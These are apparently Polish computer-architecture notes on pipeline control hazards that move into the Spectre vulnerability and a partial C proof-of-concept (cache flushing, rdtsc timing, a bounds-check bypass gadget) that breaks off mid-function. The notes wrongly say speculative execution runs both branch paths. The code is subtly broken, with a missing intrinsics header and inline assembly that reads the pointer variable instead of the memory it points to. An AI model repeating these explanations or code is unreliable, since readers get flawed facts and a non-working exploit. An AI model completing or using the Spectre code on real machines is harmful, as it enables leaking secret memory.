 3. Hazardy kontroli: Występują, gdy kolejność wykonywania rozkazów ulega zmianie z powodu instrukcji warunkowych, takich jak skoki czy instrukcje warunkowe. Hazardy kontroli mogą prowadzić do niepotrzebnego wypełnienia potoku rozkazów i straty wydajności.

   Sposoby minimalizowania hazardów kontroli:
   a. Przewidywanie rozgałęzień (branch prediction): Procesor próbuje przewidywać, czy dane rozgałęzienie zostanie wykonane, i wstępnie ładuje odpowiednie rozkazy do potoku rozkazowego.
   b. Opóźnianie rozgałęzienia (branch delay slot): Procesor pozwala na wykonanie jednego lub kilku rozkazów po instrukcji rozgałęzienia, zanim rzeczywista zmiana przepływu sterowania zostanie wprowadzona. Kompilator może umieścić niezależne rozkazy w tych opóźnionych miejscach, aby zmniejszyć straty wydajności spowodowane hazardami kontroli.

   c. Wykonanie spekulatywne (speculative execution): Procesor wykonuje obie ścieżki po rozgałęzieniu warunkowym, jednocześnie śledząc poprawność wyników. Gdy warunek rozgałęzienia zostanie ostatecznie wyznaczony, procesor odrzuca wyniki niewłaściwej ścieżki i kontynuuje wykonanie poprawnej ścieżki.

   Interesująca podatność związana z SE (side-channel) - [Spectre](https://en.wikipedia.org/wiki/Spectre_(security_vulnerability))

Podatność Spectre dotyczy złośliwego wykorzystania spekulatywnego wykonania instrukcji przez procesor w celu uzyskania dostępu do poufnych informacji.

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <time.h>

#define CACHE_LINE_SIZE 64
#define CACHE_SIZE 256

uint8_t timing_array[CACHE_SIZE * CACHE_LINE_SIZE];
uint8_t temp = 0;

// Funkcja do wyczyszczenia zawartości cache
void flush_cache() {
    for (size_t i = 0; i < CACHE_SIZE; i++) {
        _mm_clflush(&timing_array[i * CACHE_LINE_SIZE]);
    }
}

// Funkcja mierząca czas dostępu do danego elementu w timing_array
uint64_t measure_access_time(void *address) {
    uint64_t time1, time2;

    uint32_t trash;
    _asm {
        lfence
        rdtsc
        mov time1, eax
        mov eax, [address]
        mov trash, eax
        rdtsc
        mov time2, eax
        lfence
    }

    return time2 - time1;
}

// Funkcja wykorzystująca spekulatywne wykonanie instrukcji
void malicious_code(size_t x, const uint8_t *data, size_t data_length) {
    if (x < data_length) {
        temp &= timing_array[data[x] * CACHE_LINE_SIZE];
    }
```